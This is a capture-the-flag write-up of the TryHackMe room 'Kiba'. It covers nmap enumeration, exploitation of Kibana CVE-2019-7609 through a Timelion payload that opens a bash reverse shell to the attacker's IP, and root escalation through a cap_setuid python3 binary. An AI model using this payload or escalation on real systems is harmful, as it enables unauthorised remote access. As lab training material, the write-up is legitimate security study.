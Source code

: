 # ROOM : KIBA

Hello, i'm Frygg, here a little write up for the room [Kiba](https://tryhackme.com/room/kiba) on TryHackMe, hope it can help someone ;).

In this write up, you can see :

1. Somes usefull tools !
2. Exploiting a RCE using one CVE and obtaining acces to the server
3. Root the machine !!!

This is my first write up, it may be modified !
This challenge is fairly easy, so this writeup won't take long.

# 1. Enumeration

First of all, i have to gather somes informations about this boxe.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:19 EDT
Nmap scan report for 10.10.223.77
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:28 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.94%I=7%D=8/20%Time=64E27588%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:28\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.40 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

Kibana is a data visualization dashboard for Elasticsearch.
After a quick analyze on the dashboard, we found Kibana is in version 6.5.4.

After one quick search on google, we found one CVE about Kibana : **CVE-2019-7609**
This CVE can lead to a RCE (Remote Code Execution).

# Exploitation
On a shell, i run a listenner on port 4444 :

`nc -lnvp 4444`

On the Timelion, we can use this payload :
*Timelion is a visualization tool for Kibana, he accept expressions with parameters*
`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/{MY_IP}/4444 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page. We get the reverse shell.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

`python2 CVE-2019-7609-kibana-rce.py -u http://10.10.223.77:5601 -host {MY_IP} -port 4444 --shell`

And we have just to wait on the listenner (previously runned with netcat)

Nice, we have the reverse shell on the web server !

`THM{xx_xxxx_xxxxx_xxxxxx_xxxx_xxx}`

## Root

After quick research of config files or something usefull, i found something interesting in kiba's home.
One folder is named **.hackmeplease**, in this folder, we have one file, its a python3 binarie.

We have to search capabilites to see if we can exloit it:

`getcap -r / 2<dev/null`

We found this capabilite who is exploitable to get the root :

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

This binarie have **cap_setuid+ep** attribute, wich means this binarie can set his UID. 
We can use it to generate a shell with UID 0 and getting a shell with root privileges.

On [GTFOBins](https://gtfobins.github.io/) we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

This boxe is now rooted !

`THM{xxxxxxxxx_xxxxxxxxxx_xxxxx_xxxxxxxxxxxx}`
